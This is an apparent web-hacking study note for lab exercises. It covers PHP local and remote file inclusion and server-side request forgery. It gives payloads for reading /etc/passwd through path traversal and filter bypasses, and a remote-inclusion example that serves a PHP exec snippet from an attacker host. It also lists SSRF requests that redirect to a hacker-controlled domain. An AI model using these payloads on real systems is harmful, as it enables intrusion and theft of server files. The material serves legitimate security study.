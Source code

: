 WEBENUM
## File Inclusion
### Local
With PHP, using functions such as include, require, include_once, and require_once often contribute to vulnerable web applications. Theoretically, we can access and display any readable file on a server if there isn't any input validation. Let's say we want to read the `/etc/passwd file`, we can try the following: `http://domain.com/get.php?file=/etc/passwd`. In this case, it works because **there isn't a directory specified** in the `include` function and **no input validation**.

| Type | Description | Example |
|-|-|-|
| No specified directory | Get the file just like in a console | `/get.php?file=/etc/passwd` |
| Specified directory | Use path traversal along with error messages to find the file | `/get.php?file=../../../../etc/passwd` |
| Specified extension | Use a `null byte` operator or the current directory trick `/.` to bypass the extension, the `%00` trick is patched and not working with PHP 5.3.4 and above. | `/get.php?file=/etc/passwd%00` |
| Input validation | The web application replaces the ../ with the empty string, the PHP filter only matches and replaces the **first** subset string `../` it finds and **doesn't do another pass**. | `....//....//....//....//....//etc/passwd` |
| Include is forced to read from a defined directory | Simply include the directory into the payload | `/get.php?file=languages/../../../../../etc/passwd` |

### Remote
Include **remote** files into a vulnerable application. One requirement for RFI is that the `allow_url_fopen` option needs to be `on`. The types and examples are  essentially the same as the local file inclusion except we're getting it from a remote server. We could RCE, XSS, DOS, etc. using RFI.

**Example**:

On AttackBox nano a file.txt with contents of: 
```php
<?php
print exec('hostname');
?>
```
Then `python3 -m http.server` and move over to the browser:
`http://10.10.21.255/playground.php?file=http://10.10.86.219:8000/x.txt`

## Server-Side Request Forgery (SSRF)
A vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.
There are two types of SSRF vulnerability; the first is a `regular SSRF` where `data is returned to the attacker's screen`. The second is a `Blind SSRF` vulnerability where an SSRF occurs, but `no information is returned to the attacker's screen`.

| Description | Expected request | Hacker request | Server request |
| - | - | - | - |
| URL modification | `http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123` | `http://website.thm/stock?url=http://api.website.thm/api/user` | `http://api.website.thm/api/user` |
| Directory travelsal | `http://website.thm/stock?url=/item?id=123` | `http://website.thm/stock?url=/../user` | `http://api.website.thm/api/stock/../user` |
| Control the subdomain | `http://website.thm/stock?server=api&id=123` | `http://website.thm/stock?server=api.website.thm/api/user&x=&id=123` | `http://api.website.thm/api/user?x=.website.thm/api/stock/item?id=123` |
| Remote server requests | `http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123` | `http://website.thm/stock?url=http://hacker-domain.thm` | Gets skipped, instead we get data from `hacker-domain.thm` |

